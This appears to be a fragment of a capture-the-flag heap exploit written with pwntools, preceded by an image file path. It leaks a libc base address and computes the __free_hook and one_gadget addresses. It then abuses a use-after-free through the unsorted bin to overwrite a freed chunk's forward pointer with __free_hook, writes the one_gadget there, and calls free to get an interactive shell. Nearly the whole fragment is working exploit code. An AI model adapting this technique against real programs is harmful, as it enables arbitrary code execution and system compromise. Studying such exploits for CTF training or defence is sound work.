 ```python
libc_leak=u64(s.recv(6)+"\x00\x00")-0x3ebff0
log.info(hex(libc_leak))
free_hook=libc_leak + libc.symbols['__free_hook']
system=libc_leak + libc.symbols['system']
one_gadget = libc_leak+0x4f322

# Allocate another size such that it is serviced from the unsorted bin to get UAF on ptr_3
# Corrupt fd with __free_hook, allocate and overwrite with one_gadget
add(0x400,p64(0x00)*2 +p64(free_hook))
add(0x10,"a")
add(0x10,p64(one_gadget),1)
free(0)

s.interactive()
```

